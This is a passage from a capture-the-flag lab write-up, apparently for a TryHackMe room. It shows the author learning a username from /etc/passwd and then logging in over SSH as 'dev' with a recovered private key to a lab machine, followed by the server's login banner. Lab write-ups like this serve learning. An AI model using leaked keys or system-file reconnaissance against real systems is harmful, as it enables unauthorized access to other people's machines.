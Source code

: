 ![](attachments/Pasted%20image%2020250629142655.png)

-> From /etc/passwd, we know there is a user named 'dev'. Let's try to login using this id_rsa for user 'dev'.

```┌──(kali㉿kali)-[~/Downloads/THM/industrialintrustion/task16]
└─$ ssh -i id_rsa dev@10.10.63.43
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-1030-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jun 29 10:33:45 UTC 2025

  System load:  0.03               Temperature:           -273.1 C
  Usage of /:   16.1% of 19.31GB   Processes:             116
  Memory usage: 19%                Users logged in:       0
  Swap usage:   0%                 IPv4 address for ens5: 10.10.63.43

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

```